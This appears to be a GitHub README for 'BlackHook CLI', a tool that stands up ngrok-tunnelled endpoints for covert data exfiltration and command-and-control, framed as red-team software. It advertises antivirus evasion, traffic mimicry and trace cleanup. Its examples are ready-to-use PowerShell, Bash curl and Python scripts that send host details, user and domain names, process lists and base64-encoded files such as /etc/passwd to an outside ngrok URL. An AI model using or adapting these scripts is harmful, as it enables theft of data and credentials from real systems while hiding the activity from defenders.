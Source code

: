 # BlackHook CLI

A covert command-line tool for establishing secure data exfiltration channels and webhook endpoints during penetration testing and red team operations.

![Security](https://img.shields.io/badge/security-research-red.svg)
![Python](https://img.shields.io/badge/python-3.7+-blue.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)
![Stealth](https://img.shields.io/badge/stealth-high-darkgreen.svg)

## 🎯 Overview

BlackHook-CLI is similar to webhook.site but in the form of cli and can be run locally to carry out a variety of data exfiltration attacks


## 🔥 Key Advantages

- 🥷 **AV Evasion**: Bypasses common antivirus detection through legitimate HTTP traffic patterns
- 🌐 **Dynamic Endpoints**: Creates ephemeral ngrok tunnels that don't appear in security feeds
- 🔒 **No External Dependencies**: Self-hosted solution avoiding third-party webhook services
- 📊 **Real-time Monitoring**: Live TUI for immediate data visibility during operations
- 🧹 **Clean Footprint**: Minimal system traces and easy cleanup
- 🎭 **Traffic Mimicry**: Requests appear as legitimate web traffic
- 💾 **Flexible Exfiltration**: Supports multiple data formats and encoding schemes

## 🚀 Tactical Use Cases

- **Data Exfiltration**: Extract sensitive files and credentials via HTTP POST
- **Command & Control**: Establish covert communication channels
- **Payload Delivery Confirmation**: Verify successful payload execution
- **Persistence Validation**: Test beacon callbacks and heartbeat mechanisms


## 📦 Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/blackhook-cli.git
cd blackhook-cli

# Install dependencies
pip install -r requirements.txt

# Make executable
chmod +x blackhook_cli.py
```

## ⚡ Quick Deployment

### 1. Establish Covert Channel
```bash
python blackhook_cli.py start --port 8080
```
- Automatically generates ephemeral ngrok URL
- Launches real-time monitoring interface
- Ready for data reception immediately

### 2. Configure Target Payload
Use the generated URL in your payload scripts:
```bash
# Example exfiltration endpoint
https://abc123.ngrok.io/exfil
```

### 3. Monitor Incoming Data
Watch data arrive in real-time through the interactive TUI with full request details, headers, and payload content.

## 🎯 Operational Examples

### Data Exfiltration Scripts

**PowerShell (Windows)**
```powershell
# Exfiltrate system information
$data = @{
    hostname = $env:COMPUTERNAME
    user = $env:USERNAME
    domain = $env:USERDOMAIN
    processes = Get-Process | Select-Object Name | ConvertTo-Json
}
Invoke-RestMethod -Uri "https://your-ngrok-url.ngrok.io/sysinfo" -Method POST -Body ($data | ConvertTo-Json) -ContentType "application/json"
```

**Bash (Linux)**
```bash
#!/bin/bash
# Covert file exfiltration
curl -X POST https://your-ngrok-url.ngrok.io/files \
  -H "Content-Type: application/json" \
  -d "{\"filename\":\"$(basename $1)\",\"content\":\"$(base64 -w 0 $1)\"}"
```

**Python (Cross-platform)**
```python
import requests
import base64
import os

def exfiltrate_file(filepath, endpoint):
    with open(filepath, 'rb') as f:
        content = base64.b64encode(f.read()).decode()
    
    data = {
        'filename': os.path.basename(filepath),
        'size': os.path.getsize(filepath),
        'content': content
    }
    
    requests.post(f"{endpoint}/upload", json=data)

# Usage
exfiltrate_file("/etc/passwd", "https://your-ngrok-url.ngrok.io")
```

## 🔧 Operational Commands

| Command | Purpose | OPSEC Level |
|---------|---------|-------------|
| `start` | Deploy covert endpoint | 🟢 High |
| `status` | Check operational status | 🟢 High |
| `requests` | Review captured intelligence | 🟢 High |
| `show <id>` | Analyze specific payload | 🟢 High |
| `export` | Extract operation data | 🟡 Medium |
| `kill` | Terminate and cleanup | 🟢 High |
| `clear` | Purge operation traces | 🟢 High |

## 🎮 TUI Operational Controls

| Key | Function | Description |
|-----|----------|-------------|
| `↑↓` | Navigate | Browse captured payloads |
| `Enter` | Inspect | Deep dive into payload details |
| `c` | Clean | Emergency data wipe |
| `e` | Extract | Quick data export |
| `k` | Kill | Terminate operations |
| `q` | Quit | Exit interface |

## 🤝 Contributing

Security researchers and penetration testers are welcome to contribute:

---
#### Inspired from Webhook.site
